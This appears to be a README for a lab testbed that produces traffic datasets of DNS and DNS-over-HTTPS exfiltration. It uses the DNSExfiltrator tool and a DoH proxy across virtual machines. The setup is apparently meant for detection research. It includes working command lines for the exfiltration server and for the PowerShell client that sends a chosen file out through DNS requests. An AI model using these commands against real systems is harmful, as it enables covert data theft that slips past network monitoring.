

# Installation of the testbed network

Please, refer to the PDF file named: "_DNSExfiltrator_testbed_network_configuration.pdf_".

# Manual usage 

**If you are using "Internal Network" option in VirtualBox, connect during few seconds VMs on Internet before return in Internal Network configuration**. It seems to be needed on each first run of the DoH server machine.

## DNSExfiltrator Server

Run the DNSExfiltrator server side before the client side:

```
# cd DNSExfiltrator
# python dnsexfiltrator.py -d [domain] -p [password]
```

The option _-p [password]_ allow to specify which password use for the encryption of the communication (mandatory).

(**WARNING**: Do not have the same username between client and server for file exfiltration, this does not seem to work)

## DoH proxy on Windows (if you want DoH communication, else go directly to next point about client)

Run the proxy (2 manners):

_In anaconda prompt_:
```
> conda activate DoH_proxyConda
(DoH_proxyConda)> doh-stub --listen-address [addressListeningHost] --listen-port [listeningPort] --domain [domainNameResolver] --cafile [pathToCertificateFile]
```

**OR**:

_In Command prompt_:
```
> C:\Users\$USER\anaconda3\condabin\conda.bat run -n DoH_proxyConda doh-stub --listen-address [addressListeningHost] --listen-port [listeningPort] --domain [domainNameResolver] --cafile [pathToCertificateFile]
```

## DNSExfiltrator Client (Windows)

In /DNSExfiltrator/ with a powershell:

```
> Import-Module .\Invoke-DNSExfiltrator.ps1
> Invoke-DNSExfiltrator -i [fileToExtract] -d [domain] -p [password] -s [address_where_to_send_dns_requests] -t [delayInMilliseconds]
```

The file extracted is transfered into a zip file but not timestamped.

The address of the server can be the address of the machine where the proxy is or the one of the machine of the server side of DNSExfiltrator.


# Automated production of dataset with DNSExfiltrator

## C&C communication process with DNSExfiltrator and DoH (automated)



All dataset production with DNSExfiltrator is managed from the Windows machine. We run a python script which contact Debian Server machine via SSH using its domain name.

As indicated in the DNSExfiltrator Github documentation (https://github.com/Arno0x/DNSExfiltrator), we first need to run the server side of DNSExfiltrator. This is run as a background task by using the _dtach_ library in the Root account, in order to not interrupt the Python script execution. We can communicate with this server side via a socket we've created (see code).<br>
Next, we can launch the DoH proxy called "_doh-proxy_" (https://github.com/facebookarchive/doh-proxy). Thanks to the certificate passed as a parameter downloaded from the DoH server machine after its configuration, the proxy connects to the Local DoH resolver. It listens for requests on the indicated port (53) and retransmits them in HTTPS to the Local DoH resolver. **It's imperative to launch a connection within about 20 seconds, otherwise the connection between the proxy and the Local DoH resolver will be closed. If this exceeds the time limit, the process has to be killed and restarted**.<br>
Finally, the client side of DNSExfiltrator is runned by using a powershell script named "_dnsexfiltratorScript.ps1_" which is a self-made Python script and we specify the public IP address of the Windows Client machine and port destination (53) to send DNS requests to the DoH proxy (the proxy doesn't seem to work when the loopback address and port 53 are mentioned). If all goes well, communication is established and packets are exchanged every time depending of the delay specified.

All the traffic is captured by the victim machine to have the traffic between the victim and the local DoH resolver.

## Running the process

- Pay attention that all the machines can communicate with each other in the same network (NAT network)
- Put the code files needed on the Windows machine:
    - constants.py
    - dnsexfiltrator_main_insitu.py
    - dnsexfiltratorScript.ps1
    - local_dnsexfiltrator_scenarios.json
    - utils.py
- Put the "_dnsexfiltratorScript.ps1_" in the Documents Folder
- Execute the Python script file "_dnsexfiltrator_main_insitu.py_" if you want to run the process with: `$ python dnsexfiltrator_main_insitu.py`
- Kill the process by using "_CTRL+C_" and the process has been coded to end when a communication is ended in order to not disturb the capture of traffic and have problems.

Please, refer to the code if you want to modify the request maximum size to execute and delay between each DNS request.